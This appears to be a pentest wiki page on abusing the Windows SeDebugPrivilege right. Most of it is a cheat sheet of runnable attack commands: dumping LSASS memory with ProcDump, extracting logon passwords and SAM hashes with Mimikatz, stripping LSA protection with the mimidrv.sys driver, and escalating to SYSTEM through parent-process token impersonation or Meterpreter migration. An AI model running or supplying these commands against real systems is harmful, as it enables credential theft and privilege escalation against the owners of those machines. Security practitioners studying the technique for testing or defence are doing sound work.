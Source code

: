 # SeDebugPrivilege

SeDebugPrivilege is a token can be assigned via local or domain group policy to account which then are allowed the use of Debuggers. Debuggers by design, have access to system memory, kernel and application structures . The reading and write to and of memory should be sparingly granted. See [[SePrivilege-Token-Table]] for full listing of all abusable and non-abusable tokens.  For testing consider [Lee Holms adjusting-token-privileges-in-powershell article](https://www.leeholmes.com/adjusting-token-privileges-in-powershell/).


Dumping important processes that contain credentials like Local Security Authority Subsystem Service ([LSASS](https://en.wikipedia.org/wiki/Local_Security_Authority_Subsystem_Service)) 

- `Taskmanager -> [Right Click] lsass.exe -> Create dump file `or  [ProcDump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump) from the [SysInternals](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite) to dump `lsass.exe` then [[Mimikatz-Cheatsheet]]. Or script to be found at [FuzzySecurity](https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Conjure-LSASS.ps1). - See [PoC](https://github.com/daem0nc0re/PrivFu/tree/main/PrivilegedOperations/SeDebugPrivilegePoC) by [@daem0nc0re](https://twitter.com/daem0nc0re)

```powershell
procdump.exe -accepteula -ma lsass.exe lsass.dmp
privilege::debug
# Log to a txt file as the output can get very large 
log 
sekurlsa::minidump lsass.dmp
sekurlsa::logonpasswords 
````

- With just Mimikatz - [[Mimikatz-Cheatsheet]]
```powershell
privilege::debug
# Log to a txt file as the output can get very large 
log 
sekurlsa::logonpasswords
# ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000005)
# Means LSA protection:
!+ # mimidrv.sys driver disables LSA protection.
!processprotect /process:lsass.exe /remove
```
- Both require mimidrv.sys and dll - beware, may all require [[Antivirus-Evasion]]
```powershell
privilege::debug # enables the _SeDebugPrivilge_ access right
# Log to a txt file as the output can get very large 
log 
token::elevate # elevate the security token Administrator -> SYSTEM
!+ # LSA protection bypass!
lsadump::lsa /patch
lsadump::sam
sekurlsa::logonPasswords
```


[By following the instructions of this Decoder article](https://decoder.cloud/2018/02/02/getting-system/) and launching a [child process](https://learn.microsoft.com/en-us/windows/win32/procthread/child-processes), elevating to SYSTEM with SeDebugPrivilege by inheriting the token of a parent process thereby impersonating that security context. 
- Transfer [psgetsystem](https://github.com/decoder-it/psgetsystem)
-  Run [psgetsystem](https://github.com/decoder-it/psgetsystem) with either:
	- the auto-invoke: `[MyProcess]::CreateProcessFromParent(<system_pid>,<command_to_execute>,"")`
	- `.\psgetsys.ps1 $PID c:\windows\system32\cmd.exe`
```powershell
[MyProcess]::CreateProcessFromParent(<system_pid>,<command_to_execute>,"") 
# or
ImpersonateFromParentPid -ppid <parent pid> -command <command to execute> -cmdargs <command arguments>
```

Or `EnableAllTokenPrivs.ps1`, get a `set AutoRunScript post/windows/manage/migrate true` on a x64 Meterpreter shell and then manually `migrate` to `winlogon.exe` process from the `ps` listing of all process. 

## References

[psgetsystem](https://github.com/decoder-it/psgetsystem)
[LeeHolmes](https://www.leeholmes.com/adjusting-token-privileges-in-powershell/)
[Microsoft Learn](https://learn.microsoft.com/en-us/windows/win32/procthread/child-processes)
[FuzzySecurity](https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Conjure-LSASS.ps1)
[ProcDump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump) 
[SysInternals](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite) 
[@daem0nc0re](https://twitter.com/daem0nc0re)
[Decoder article](https://decoder.cloud/2018/02/02/getting-system/)
[daem0nc0re PoC](https://github.com/daem0nc0re/PrivFu/tree/main/PrivilegedOperations/SeDebugPrivilegePoC)